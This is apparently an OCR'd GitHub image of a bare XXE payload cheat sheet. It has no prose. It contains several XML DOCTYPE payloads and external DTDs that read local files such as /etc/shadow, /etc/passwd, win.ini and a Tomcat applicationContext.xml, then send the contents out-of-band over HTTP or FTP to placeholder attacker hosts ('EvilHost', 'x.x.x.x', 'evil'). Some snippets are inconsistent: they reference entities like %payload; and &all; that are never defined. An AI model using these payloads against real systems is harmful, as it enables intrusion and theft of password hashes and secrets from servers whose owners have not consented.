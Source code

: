 ```
----------------------------------------------------------------
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://x.x.x.x:443/ev.xml">
%sp;
%param1;
%exfil;
]>

## External dtd: ##

<!ENTITY % data SYSTEM "file:///c:/windows/win.ini">
<!ENTITY % param1 "<!ENTITY &#x25; exfil SYSTEM 'http://x.x.x.x:443/?%data;'>">

---------------------------------------------------------------
OoB extraction
---------------------------------------------------------------

<?xml version="1.0"?>
<!DOCTYPE r [
<!ENTITY % data3 SYSTEM "file:///etc/shadow">
<!ENTITY % sp SYSTEM "http://EvilHost:port/sp.dtd">
%sp;
%param3;
%exfil;
]>

## External dtd: ##
<!ENTITY % param3 "<!ENTITY &#x25; exfil SYSTEM 'ftp://Evilhost:port/%data3;'>">

-----------------------------------------------------------------------
OoB extra ERROR -- Java
-----------------------------------------------------------------------
<?xml version="1.0"?>
<!DOCTYPE r [
<!ENTITY % data3 SYSTEM "file:///etc/passwd">
<!ENTITY % sp SYSTEM "http://x.x.x.x:8080/ss5.dtd">
%sp;
%param3;
%exfil;
]>
<r></r>
## External dtd: ##

<!ENTITY % param1 '<!ENTITY &#x25; external SYSTEM "file:///nothere/%payload;">'> %param1; %external;


-----------------------------------------------------------------------
OoB extra nice
-----------------------------------------------------------------------

<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE root [
 <!ENTITY % start "<![CDATA[">
 <!ENTITY % stuff SYSTEM "file:///usr/local/tomcat/webapps/customapp/WEB-INF/applicationContext.xml ">
<!ENTITY % end "]]>">
<!ENTITY % dtd SYSTEM "http://evil/evil.xml">
%dtd;
]>
<root>&all;</root>
```